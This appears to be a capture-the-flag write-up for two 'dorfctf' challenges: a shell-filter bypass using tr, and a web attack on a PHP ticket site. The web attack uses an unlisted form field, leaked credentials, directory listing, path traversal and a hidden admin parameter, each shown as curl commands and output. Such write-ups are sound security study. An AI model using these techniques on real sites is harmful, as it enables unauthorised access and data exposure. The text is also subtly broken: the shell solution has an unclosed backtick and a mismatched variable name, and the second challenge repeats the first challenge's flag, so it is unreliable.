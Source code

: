 # dorfctf

## Challenge SuperSecureShell
10.10.0.195 - container
ssh on port 2222
inputs are filtered by a go program that runs your shell:

```
buffer = strings.ToLower(buffer)
buffer = strings.Replace(buffer, "*", "", -1)
buffer = strings.Replace(buffer, "?", "", -1)
buffer = strings.Replace(buffer, "\\", "", -1)
```
there is a go program `GETFLAG` that you need to call which is difficult
because capital letters are filtered. also the `GETFLAG` program needs a 
parameter "AGREE" to output the flag:

```
if os.Args[1] == "AGREE" {
		flag, _ := ioutil.ReadFile("/deploy/FLAG.TXT")
		println(string(flag))
		return
	}
``` 
So my solution is to use `tr`:
getflag=`echo "getflag" | tr [:lower:] [:upper:]
agree=`echo "agree" | tr [:lower:] [:upper:]`
./$getflag $agreed

### Flag:
DORF18{Y0UR_5H3LL_15_1N_4N0TH3R_C45TL3}


## PumpkinParty
After we launched the container, we got an ip for the host. Let's call it `$HOSTIP`.

With `nmap $HOSTIP` we find out the host only listens on port 80.

Open that IP in a Web browser. It presents a page with a link at the bottom.
The link leads to a page for buying tickets, `/tickets.php`. It contains a form
with form fields for the number of tickets for each ticket type, e.g.
`normal\_count` or `vip\_count`.

The page's source code contains a comment which says that there's a fourth
ticket type 'merchant' which is not implemented yet. Since this type is not
included in the form we need to use `curl` to send a request with this ticket
type.

We used this command to submit the form with one merchant ticket:

    curl -i -H 'application/x-www-form-urlencoded' -F 'merchant_count=1' http://$HOSTIP/tickets.php?action=submit

The response is HTTP 302 that redirects to `?action=confirm` and has a
`Set-Cookie` header with the key `PHPSESSID`. We save it for later use.

    PHPSESSID=b3ec83b80e0774419f9269dce56b45ce

Following 'confirm' with

    curl -iv -b PHPSESSID=b3ec83b80e0774419f9269dce56b45ce -v http://$HOSTIP/tickets.php?action=confirm

returns a page with a table where the order is summarized. There's a button that sends a request to `?action=buy`.

Let's send a request:


    curl -iv -b PHPSESSID=b3ec83b80e0774419f9269dce56b45ce -v http://$HOSTIP/tickets.php?action=buy

We get a page with an HTML comment saying:

    <!-- @WEBDEVS user/pass merch_test2/BUYMYSHORTS !!!REMOVE IN PROD!!! -->

The question is: Where is this merchant page?

We guess and send

    curl -u merch_test2:BUYMYSHORTS -vi http://$HOSTIP/merchants/

The returned page contains JavaScript that iterates over the response of
`/merchants/processor.php?a=registered` to display merchant information.
For each value that is returned at this path another GET request to
`/merchants/processor.php?b=<MERCHANT>` is sent to get information about each
merchant.

    curl -u merch_test2:BUYMYSHORTS http://$HOSTIP/merchants/processor.php?a=registered

    ["Bobs Bar","Himalaya Hats","Ingrids Imbiss"]

What happens if we replace the value `registered` with something else, say, a dot?

    curl -u merch_test2:BUYMYSHORTS http://$HOSTIP/merchants/processor.php?a=.

It yields a list of filenames:

    [".htaccess",".htpasswd","327a6c4304ad5938eaf0efb6cc3e53dc.php","index.php","processor.php","registered"]

Apparently, `registered` is a directory and there's a suspicious file
`327a6c4304ad5938eaf0efb6cc3e53dc.php`, which is in the same directory as
`processor.php`.

However, accessing `/merchants/327a6c4304ad5938eaf0efb6cc3e53dc.php` returns a HTTP 403 (forbidden).

We need to look into this file.

Since the JavaScript code sends requests to
`/merchants/processor.php?b=<MERCHANT>` and the value of this parameter seems
to be file, we could get the suspicious file this way.

`processor.php` outputs files given in parameter `b` which are in the directory
`registered`. Since `327a6c4304ad5938eaf0efb6cc3e53dc.php` is in a directory above `registered` we need to send

    curl -u merch_test2:BUYMYSHORTS -vi http://10.10.1.3/merchants/processor.php?b=../327a6c4304ad5938eaf0efb6cc3e53dc.php

The PHP file asks for a GET parameter `admin` that must have the value `sure`. So let's do the request

    curl -u merch_test2:BUYMYSHORTS -vi http://10.10.1.3/merchants/327a6c4304ad5938eaf0efb6cc3e53dc.php?admin=sure

The returned HTML page contains the flag: `DORF18{Y0UR\_5H3LL\_15\_1N\_4N0TH3R\_C45TL3}`.
